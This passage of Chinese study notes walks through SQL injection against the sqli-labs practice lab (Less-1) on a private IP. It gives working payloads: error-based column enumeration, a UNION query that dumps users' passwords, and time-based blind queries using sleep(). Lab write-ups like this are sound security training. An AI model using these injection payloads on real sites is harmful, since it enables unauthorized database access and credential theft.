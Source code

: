 - 获取字段名(我们只需要获取到数据库名和表名即可,然后用其它方式获取数据)

```sql
http://192.168.77.131/master/Less-1/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x3a)) --+
```

- 使用union获取所有数据

```sql
http://192.168.77.131/master/Less-1/?id=-1' UNION SELECT 1, (SELECT group_concat(id, 0x3a, username, 0x3a, password SEPARATOR 0x0a) FROM security.users), 3 --+
```

### 时间盲注(这里使用yakit,个人比较喜欢)

- 获取``数据库名长度``-->8

```
http://192.168.77.131/master/Less-1/?id=1'and if(length(database())=8,sleep(5),0) --+ 
```

- 获取``数据库名字``-->security

```sql
//获取数据库名字if(ascii(substring((select database()),1,1))=115,sleep(5),0)
//database(),1,1 第一个``1``表示从数据库名称的第一个字符开始,第二个``1``表示要截取的字符长度为1，即只获取第一个字符

http://192.168.77.131/master/Less-1/?id=1'and if(ascii(substring((select database()),1,1))=115,sleep(5),0)--+
```

![image-20240821100550904](assets/image-20240821100550904.png)

- 获取该``数据库中表的数目``-->4

```sql
http://192.168.77.131/master/Less-1/?id=1'and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(5),0)--+
```
